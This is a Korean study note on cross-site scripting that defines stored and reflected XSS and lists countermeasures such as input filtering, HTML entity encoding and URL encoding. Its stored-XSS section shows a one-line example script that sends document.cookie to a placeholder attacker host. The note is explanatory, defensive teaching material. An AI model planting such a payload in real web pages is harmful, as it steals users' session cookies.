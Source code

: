 #### XSS 공격의 주요 피해
1. 사용자 쿠키 정보 전송
2. 관리자 실행 권한 획득
3. 악성 코드 다운로드 등

#### XSS 공격 유형
1. 저장형 XSS 공격
2. 반사형 XSS 공격
3. DOM


#### 4-1. 저장형 XSS 공격 ( Stored XSS Attack )

- 정의
악성 스크립트 코드를 서버 사이트의 웹 페이지에 저장하고 해당 웹 페이지를 다운로드하는 웹 브라우저 사이트에서 악성 스크립트 코드가 자동으로 실행되게 하는 공격

- 악성 스크립트 코드 ( EX )
```
<script>document.locaion='http://www.xxx.com/app?cookie=' + document.cookie;</script>
```
자신의 쿠기 정보를 공격자의 웹 사이트로 전송

- 이용 취약점
1. 서버 사이트의 폼 페이지 입력란에 원래 목적과 다른 악성 스크립트 코드를 입력
2. 입력된 악성 스크립트 코드가 HTML에 포함된 정상적인 스크립트 코드로 해석되어 웹 브라우저에서 실행

- 대응책
1. 폼 페이지 필드에 XSS 공격에 사용될 수 있는 위험한 문자가 입력될 수 없게 함
2. 입력된 위험한 문자가 웹 브라우저에 의해 실행될 수 없게 함 ( HTML 엔티티 인코딩, javaScript 이스케이핑 ) 

#### 4-2.반사형 XSS 공격 ( Reflected XSS Attack )
- 정의
사용자가 악성 스크립트 코드가 매개변수 형태로 포함된 URL을 클릭할 때 악성 스크립트 코드가 서버 사이트에 의해 HTML 문서로 반사되어 웹 브라우저에서 실행되는 공격

- 특징
서버 사이트에 악성 스크립트 코드를 남기지 않아도 되는 장점

- 취약점 이용
URL 입력 필드에 원래의 목적과 다른 악성 스크립트 코드를 입력

- 대응
	1. URL 필드에 XSS 공격에 사용될 수 있는 위험한 문자가 입력될 수 없게 함
	2. URL 부분에 스크립트 코드가 포함될 경우 단순한 데이터 정보로 변환하는 URL 인코딩 기법 적용

